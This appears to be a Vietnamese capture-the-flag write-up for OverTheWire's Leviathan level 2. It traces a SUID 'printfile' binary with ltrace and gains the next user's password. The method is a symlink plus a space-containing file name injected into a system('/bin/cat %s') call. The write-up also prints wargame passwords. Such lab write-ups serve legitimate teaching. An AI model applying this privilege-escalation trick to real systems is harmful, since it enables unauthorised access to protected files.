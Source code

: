 # 🧪 Leviathan Level 2 Writeup

> **Wargame:** Leviathan – OverTheWire  
> **Level:** leviathan2 → leviathan3  
> **Target:** Tìm mật khẩu cho user `leviathan3`

---

## 🖥️ SSH Đăng nhập

```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
Password: NsN1HwFoyN
```

## 🔎 Cách thực hiện:   
**Payload:**   
```bash

```

-Ta có 1 execute file SUID ```printfile```:    
```bash
-r-sr-x---   1 leviathan3 leviathan2 15072 Jul 28 19:05 printfile
```

-Thử dùng file này để lấy nội dung của /etc/leviathan_pass/leviathan3 và ra được:   
```bash
./printfile /etc/leviathan_pass/leviathan3

You cant have that file...
```

-Dùng ltrace đọc thử function call của ```printfile```:   
![alt text](image/Leviathan2-1.png)

+Ở đây ta thấy ```printfile``` dùng hàm **access()** để thực hiện kiểm tra đúng quyền thực sự mà user đang có (check ```RUID```)   
-->Vì thế ta bị chặn ngay khi chạm tới file ```/leviathan3```   

-Khi thử lại với ```/leviathan2```:   
```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2

__libc_start_main(0x80490ed, 2, 0xffffd434, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                     = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")           = 39
geteuid()                                                                                                       = 12002
geteuid()                                                                                                       = 12002
setreuid(12002, 12002)                                                                                          = 0
system("/bin/cat /etc/leviathan_pass/lev"...NsN1HwFoyN
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                          = 0
+++ exited (status 0) +++
```

-->Ta thấy ở đoạn ```/bin/cat %s``` ==> Chuỗi nhập vào được giữ nguyên xi và đẩy tới hàm system để gọi /bin/cat/...

-->Sẽ ra sao nếu 1 file có space như ```tus hehe``` được chạy với ```./printfile``` với ```tus``` là symlink tới ```/etc/leviathan_pass/leviathan3```.   

-Bước 1: Tạo symlink ```tus``` tới ```/etc/leviathan_pass/leviathan3```:    
```bash
leviathan2@leviathan:/tmp/lv2$ ls -l
total 0
lrwxrwxrwx 1 leviathan2 leviathan2 30 Aug 13 03:22 tus -> /etc/leviathan_pass/leviathan3
```

-Bước 2: Tạo empty file với tên "tus hehe":    
```bash
touch "tus hehe"
leviathan2@leviathan:/tmp/lv2$ ls -l
total 0
lrwxrwxrwx 1 leviathan2 leviathan2 30 Aug 13 03:22 tus -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2  0 Aug 13 03:26 tus hehe
```

-Bước 3: chạy lệnh ```~/printfile "tus hehe": 
```bash
 ~/printfile "tus hehe"
f0n8h2iWLP
/bin/cat: hehe: No such file or directory
```

### Các bước hoạt động của ```printfile```:   
-Dùng hàm access() để kiểm tra quyền dựa trên ```RUID``` (leviathan2) nhưng khi tới hàm system() thì quyền sẽ được tạm thời đổi thành ```EUID```(leviathan3) do file là ```SUID```

### Key: f0n8h2iWLP